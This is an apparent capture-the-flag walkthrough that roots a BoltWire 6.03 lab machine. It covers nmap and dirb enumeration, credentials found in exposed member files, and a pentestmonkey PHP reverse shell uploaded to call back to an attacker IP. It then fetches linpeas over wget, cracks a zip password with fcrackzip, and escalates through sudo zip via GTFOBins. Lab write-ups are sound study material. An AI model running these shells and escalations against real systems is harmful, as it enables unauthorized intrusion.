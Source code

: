 # Initial Nmap Scan Results

After conducting an initial Nmap scan, I identified the following open ports on the target host (`172.16.137.132`):

```bash
└─$ nmap -T4 -p 22,80,111,2049,8080,36451,41323,44903,49363 -A 172.16.137.132
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 11:36 EDT
Nmap scan report for 172.16.137.132
Host is up (0.00032s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37293/udp   mountd
|   100005  1,2,3      40291/tcp6  mountd
|   100005  1,2,3      49363/tcp   mountd
|   100005  1,2,3      55028/udp6  mountd
|   100021  1,3,4      38037/tcp6  nlockmgr
|   100021  1,3,4      44903/tcp   nlockmgr
|   100021  1,3,4      46980/udp   nlockmgr
|   100021  1,3,4      55687/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6   nfs_acl
|   100227  3           2049/udp    nfs_acl
|_  100227  3           2049/udp6   nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
36451/tcp open  mountd   1-3 (RPC #100005)
41323/tcp open  mountd   1-3 (RPC #100005)
44903/tcp open  nlockmgr 1-4 (RPC #100021)
49363/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:0F:EF:FB (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 172.16.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds
```

**Summary of Open Ports:**

- **22**: SSH (OpenSSH 7.9p1 Debian)
- **80**: HTTP (Apache 2.4.38)
- **8080**: HTTP (Apache 2.4.38)
- **2049**: NFS share

# Directory Bruteforcing Results

After scanning the website using `dirb`, I discovered multiple files on port 8080:

![Directory Listing](./Image/1.png)

Among them, there is a `member.admin` file located in the `/dev/pages` directory:

![Member Admin File](./Image/2.png)

Upon downloading this file, we found the following contents:

![Member Admin File Contents](./Image/3.png)

Additionally, there is a `member.thisisatest` file:

![Member ThisIsATest File](./Image/4.png)

From the information gathered, we can infer two potential usernames and passwords:

```
admin:I_love_java
thisisatest:thisisatest
```

Attempting to log in with these credentials, I found that the admin login was successful:

![Admin Login Success](./Image/5.png)

The application version in use is BoltWire 6.03:

![BoltWire Version](./Image/6.png)

If I had identified the BoltWire version earlier through enumeration, I could have retrieved the admin password without needing the `member.admin` file, utilizing the following vulnerability:

[CVE-2023-46501](https://github.com/Cyber-Wo0dy/CVE-2023-46501)

# Gaining Elevated Access

With admin access, I can create new pages that will be uploaded to `/dev/pages`. In this instance, we will upload a PHP reverse shell [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell):

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// ...
$ip = '172.16.137.128';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
// ...
?>
```

When creating the shell, it will be uploaded to `/dev/pages`:

![PHP Reverse Shell Upload](./Image/8.png)

After setting up a listener on the host and triggering the new `shell.php` file, we successfully received a reverse shell as the `www-data` user:

![Reverse Shell](./Image/9.png)

# Privilege Escalation

To proceed with privilege escalation, we can utilize `linpeas`. Executing `ls /home`, we discover a user named `jeanpaul`:

![Home Directory Listing](./Image/10.png)

To facilitate this, we will create an HTTP server on our attacker machine to allow us to `wget` the `linpeas.sh` script:

![HTTP Server Setup](./Image/11.png)

After successfully downloading the script:

![Downloading Linpeas](./Image/12.png)

Running `linpeas` reveals a valuable piece of information: there is a `/srv/nfs` folder containing a `save.zip` file in the NFS share. We can retrieve it using `nc`:

![Retrieving Save.zip](./Image/13.png)

The file is now available:

![File Retrieval Confirmation](./Image/14.png)

Inside `save.zip`, we find it is password-protected and contains `note.txt` and an SSH key:

![Save.zip Contents](./Image/15.png)

I can attempt to crack the password using `fcrackzip` with the following command:

```bash
fcrackzip -u -D -p /usr/share/wordlist/rockyou.txt save.zip
```

After executing the command, we successfully cracked the password, which is `java101`:

![Password Cracked](./Image/16.png)

I also attempted to use the SSH key with the `jeanpaul` user, as



Next, we attempted to use the SSH key we had found with the `jeanpaul` user, as the note was signed with "jp." However, when prompted for the `id_rsa` password, I first tried `java101`, but it didn't work. I then recalled another password I had obtained earlier: `I_love_java`, and this time it was successful!

```bash
chmod 400 id_rsa
ssh -i id_rsa jeanpaul@172.16.137.132
```

shown below:

![SSH Login Successful](./Image/17.png)

After gaining access, I checked the `.bash_history` file and noticed that while the user had cleaned it up, they left a command for `sudo -l`. Let's run that next.

![Sudo Command](./Image/18.png)

The output revealed that we can run `/usr/bin/zip` as sudo. Before proceeding, I decided to run `linpeas.sh` to look for any other potential privilege escalation paths.

As we observed, the `zip` command is available for use with sudo privileges.

![Linpeas Output](./Image/20.png)

I found a privilege escalation technique using `zip` at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/). The command is as follows:

```bash
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

After executing the command successfully, we have now rooted the box!

![Root Access](./Image/22.png)
